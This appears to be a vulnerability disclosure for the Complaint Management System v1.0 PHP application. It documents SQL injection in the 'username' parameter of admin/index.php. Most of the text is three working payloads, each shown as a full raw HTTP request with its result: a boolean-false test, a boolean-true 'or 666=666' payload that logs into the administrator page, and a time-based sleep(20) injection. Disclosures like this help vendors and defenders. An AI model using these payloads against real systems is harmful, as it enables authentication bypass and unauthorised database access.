 # Complaint Management System v1.0 by razormist has SQL injection

BUG_Author: 

vendors:https://www.sourcecodester.com/php/14206/complaint-management-system.html

Vulnerability File: Complaint Management System/admin/index.php

POST parameter 'username' exists SQL injection vulnerability

Payload1: username=a%27+or+666%3D667--+&password=b&submit=

```
POST /Complaint%20Management%20System/admin/index.php HTTP/1.1
Host: localhost
Content-Length: 48
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/Complaint%20Management%20System/admin/index.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=t4seeleacv1a7kkuldnhdqs4v4
Connection: close

username=a%27+or+666%3D667--+&password=b&submit=
```

Invalid username or password

![image](https://github.com/ggforlove/pic/blob/main/in.png)

Payload2:username=a%27+or+666%3D666--+&password=b&submit=

```
POST /Complaint%20Management%20System/admin/index.php HTTP/1.1
Host: localhost
Content-Length: 48
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/Complaint%20Management%20System/admin/index.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=t4seeleacv1a7kkuldnhdqs4v4
Connection: close

username=a%27+or+666%3D666--+&password=b&submit=
```

The administrator page is successfully logged in

![image](https://github.com/ggforlove/pic/blob/main/ad.png)

Payload3:username=a'%2b(select*from(select(sleep(20)))a)%2b'&password=b&submit=

```
POST /Complaint%20Management%20System/admin/index.php HTTP/1.1
Host: localhost
Origin: http://localhost
Cookie: PHPSESSID=vsjva5aj42bfl3b3i7s95s8ukr
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Upgrade-Insecure-Requests: 1
Referer: http://localhost/Complaint%20Management%20System/admin/index.php
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en-GB;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Length: 70

username=a'%2b(select*from(select(sleep(20)))a)%2b'&password=b&submit=
```

The server's response time is 20 seconds

![image](https://github.com/ggforlove/pic/blob/main/sleep.png)


